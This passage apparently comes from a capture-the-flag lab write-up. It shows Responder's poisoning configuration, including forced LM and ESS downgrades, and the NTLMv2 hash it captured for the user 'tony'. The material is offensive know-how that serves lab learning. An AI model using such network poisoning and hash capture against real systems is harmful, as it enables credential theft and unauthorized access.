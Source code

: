 ```
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [ON]
    Force ESS downgrade        [ON]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.16.17]
    Responder IPv6             [dead:beef:4::100f]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-RNHXCEB40TA]
    Responder Domain Name      [GXP2.LOCAL]
    Responder DCE-RPC Port     [46040]

[+] Listening for events...                                                                                                                                                                                                                 

[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:d6f8fde8c6f68787:FED96348E2563CCCD99CD0F41516CC0B:0101000000000000E09B851EBF87DA013127FD2FA6CB4A9800000000020000000000000000000000
```

We obtained the `NTLM` hash belonging to the user named `tony`.
